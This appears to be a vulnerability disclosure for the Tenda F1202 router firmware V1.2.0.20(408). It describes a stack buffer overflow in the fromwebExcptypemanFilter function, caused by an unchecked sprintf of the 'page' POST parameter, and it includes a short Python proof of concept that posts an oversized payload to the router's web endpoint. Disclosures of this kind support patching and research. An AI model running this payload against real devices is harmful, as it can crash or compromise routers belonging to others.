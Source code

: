 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2671.html

## Affected version

F1202 V1.2.0.20(408)

## Vulnerability details

The Tenda F1202 V1.2.0.20(408) firmware has a stack overflow vulnerability located in the `fromwebExcptypemanFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v8, "firewall_murlexcplist.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![image-20240409100908565](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100908565.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/webExcptypemanFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409100557300](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100557300.png)